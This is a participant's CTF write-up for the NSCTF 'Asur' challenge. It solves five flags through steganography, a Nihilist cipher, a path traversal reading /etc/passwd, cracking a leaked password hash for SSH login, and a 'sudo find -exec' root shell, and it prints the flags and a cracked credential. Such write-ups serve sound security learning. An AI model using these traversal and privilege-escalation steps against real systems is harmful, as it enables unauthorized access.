 # Writeup for CTFFriday 2020 July W1 by Muzkkir

In this article, I’m going to explain solutions of NSCTF July Week 1, 2020 CTF challenge theme "Asur" Organized by Net-Square Solutions Pvt. Ltd. and created by Prachi Karad.

This CTF had Five different challenges in which major 4 domain was covered; Stenography, Cryptography, Privilege Escalation, and Web challenges. We have to start from Stenography and Cryptography exploitation to access the system and Privilege Escalation to read the flag file.

<kbd>![alt text](images/1.png)</kbd>

## First Flag

<kbd>![alt text](images/02.png)</kbd>

As the challenge was about looking for the "MASK" on the webpage. I visit the source code page and found that.

<kbd>![alt text](images/03.png)</kbd>

<kbd>![alt text](images/04.png)</kbd>

Firstly, I have download all images and try to use the Staghide tool to extract data.

<kbd>![alt text](images/2.png)</kbd>

I use the Binwalk tool to extract data from the images. I got extracted files from the "mask.jpg"

<kbd>![alt text](images/3.png)</kbd>

```
binwalk -B mask.jpg 
binwalk --dd='.*' mask.jpg
```

<kbd>![alt text](images/4.png)</kbd>

Bingo !!! I got my 1st Flag !!!

<kbd>![alt text](images/05.png)</kbd>

```
NSCTF{Andhakar_Ek_5ach_Hai_Aur_Prakash_3k_Mithya}
```

<kbd>![alt text](images/9)</kbd>


## Second Flag

<kbd>![alt text](images/10.png)</kbd>

Now, I need to look for the "nihilist" image.

<kbd>![alt text](images/11.png)</kbd>

Using strings command I extracted words from image "nihilist.jpeg". I used -n query to extract word length more than 9
```
strings nihilist.jpeg -n 9
```
<kbd>![alt text](images/12.png)</kbd>

```
74 47 47 82 73 49 72 64 66 45 83 48 86 47 64 46 64 68 56 57 48 46 84 65 73 75 45 43 55 49 72 47 65
Ask nikhil to open the door
```
I have retrieved the 2 important hints. Which the first one might be encoding and the second would be the key to extract the flag.

<kbd>![alt text](images/13.png)</kbd>

I visit the "https://cryptii.com/" website to decode the ASCII code. Look at the Library !! I found the encoding method.

<kbd>![alt text](images/14.png)</kbd>

> Now Time to Extract the Flag

<kbd>![alt text](images/15.png)</kbd>

```"flag{karunahikrurtahailagaavhipeedahai}"```



## Third Flag

<kbd>![alt text](images/20.png)</kbd>

As the HINT suggests So I started looking for a "dj" word.
However, most of the attempts are failed at first.

<kbd>![alt text](images/21.png)</kbd>

<kbd>![alt text](images/22.png)</kbd>

<kbd>![alt text](images/23.png)</kbd>

<kbd>![alt text](images/24.png)</kbd>

<kbd>![alt text](images/25.png)</kbd>

> I looked for every possibility. :( but did not found anything useful. Then I got the message!

<kbd>![alt text](images/26.png)</kbd>

I have started looking for "CWE 22" and it is a path traversal vulnerability.

<kbd>![alt text](images/27.png)</kbd>

```So, I went to "http://10.90.137.137/?dj=/etc/passwd"```

<kbd>![alt text](images/28.png)</kbd>

I visit the home folder of Asur and the response was hidden.

<kbd>![alt text](images/29.png)</kbd>

But I found on the source page.

```NSCTF{Peeda_5e_Bada_Sh1kshak_Aur_koi_nahi_Hota}```

<kbd>![alt text](images/30.png)</kbd>



## Fourth Flag

<kbd>![alt text](images/41.png)</kbd>

<kbd>![alt text](images/40.png)</kbd>

I quickly visit the Asur's command history file.

<kbd>![alt text](images/42.png)</kbd>

<kbd>![alt text](images/43.png)</kbd>

```asur:b8be16afba8c314ad33d812f22a04991b90e2aaa```
As per my assumptions, this must be the SSH login credentials but the password was hash format. For hash value to decode I use an online platform named CrackStation where I got the real value of the hash file.
```baconandcheese```

<kbd>![alt text](images/44.png)</kbd>

It's time for Login with SSH !! but what !! I face an error!

<kbd>![alt text](images/45.png)</kbd>

Now I visit the "passwd" file in which I tried all other users with the same credentials.

<kbd>![alt text](images/47.png)</kbd>

listing the directory files for the flag.

```
NSCTF{ATTR_TATTRA_SARVATRA}
```

<kbd>![alt text](images/48.png)</kbd>



## Fifth Flag

<kbd>![alt text](images/60.png)</kbd>

Task is about Privilege Escalation so first I have to look for simple methods.

<kbd>![alt text](images/61.png)</kbd>

Interestingly, I can only use the find command as a superuser.
So, I research on the web about the "find" command to get superuser privilege on the web.

<kbd>![alt text](images/69.png)</kbd>

> & Finally found something useful on "https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/" Domain.

<kbd>![alt text](images/68.png)</kbd>

I have run some commands to see the possibilities. Below is the result.
```
localhost:/home/asur$ sudo find . -exec /bin/bash \;
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/bash \;
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/ash  \;
localhost:/home/asur# 
```
From that I sure that, This will work.

<kbd>![alt text](images/66.png)</kbd>

Gotcha !!!
```NSCTF{5amanya_Manushya_Ka_5imit_Gyan_Use_Apne_5e_Pare_Dekhne_Nahi_D3t4}```



## Conclusion

Overall, this CTF was unique for me because I learned about Privilege Escalation, cryptography, and Stegniography.  Also, playing this was fun and I appreciate the efforts of the team.


#

**Thank you.**

**Husseni Muzkkir.**
